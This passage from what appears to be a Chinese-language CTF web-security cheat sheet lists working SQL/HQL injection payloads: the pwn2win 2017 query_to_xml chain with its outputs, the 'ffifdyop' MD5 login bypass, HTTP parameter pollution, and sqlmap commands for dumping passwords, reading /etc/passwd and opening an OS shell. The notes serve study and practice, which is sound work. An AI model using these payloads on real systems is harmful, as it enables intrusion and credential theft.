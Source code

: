         - 只能列data_directory下的

## ORM injection

https://www.slideshare.net/0ang3el/new-methods-for-exploiting-orm-injections-in-java-applications

- Hibernate
    - 单引号跳脱法
        - MySQL中，单引号用`\'`跳脱
        - HQL中，用两个单引号`''`跳脱
        - `'abc\''or 1=(SELECT 1)--'`
            - 在HQL是一个字符串
            - 在MySQL是字符串+额外SQL语句
    - Magic Function法
        - PostgreSQL中内建`query_to_xml('Arbitary SQL')`
        - Oracle中有`dbms_xmlgen.getxml('SQL')`

HQL injection example (pwn2win 2017)

- ```order=array_upper(xpath('row',query_to_xml('select (pg_read_file((select table_name from information_schema.columns limit 1)))',true,false,'')),1)```
    - Output: `ERROR: could not stat file "flag": No such file or directory`

- ```order=array_upper(xpath('row',query_to_xml('select (pg_read_file((select column_name from information_schema.columns limit 1)))',true,false,'')),1)```
    - Output: `ERROR: could not stat file "secret": No such file or directory`
- `order=array_upper(xpath('row',query_to_xml('select (pg_read_file((select secret from flag)))',true,false,'')),1)`
    - Output: `ERROR: could not stat file "CTF-BR{bl00dsuck3rs_HQL1njection_pwn2win}": No such file or directory`


## SQL Injection with MD5

- `$sql = "SELECT * FROM admin WHERE pass = '".md5($password, true)."'";`
- ffifdyop
    - md5: `276f722736c95d99e921722cf9ed621c`
    - to string: `'or'6<trash>`

## HTTP Parameter Pollution

- `id=1&id=2&id=3`
    - ASP.NET + IIS: `id=1,2,3`
    - ASP + IIS: `id=1,2,3`
    - PHP + Apache: `id=3`

## SQLmap

- https://github.com/sqlmapproject/sqlmap/wiki/Usage
- Usage
    - `python sqlmap.py -u 'test.rs.panja.cc/a.php?id=1'`
        - 库名: `--dbs`
        - 表名: `-D dbname --tables`
        - column: `-D dbname -T tbname --columns`
        - dump: `-D dbname -T tbname --dump`
            - `--start=1`
            - `--stop=1234`
        - DBA? `--is-dba`
        - 爆帐密: `--passwords`
        - 看权限: `--privileges`
        - 拿shell: `--os-shell`
        - interative SQL: `--sql-shell`
        - 读档: `--file-read=/etc/passwd`
        - Delay时间: `--time-sec=10`
        - User-Agent: `--random-agent`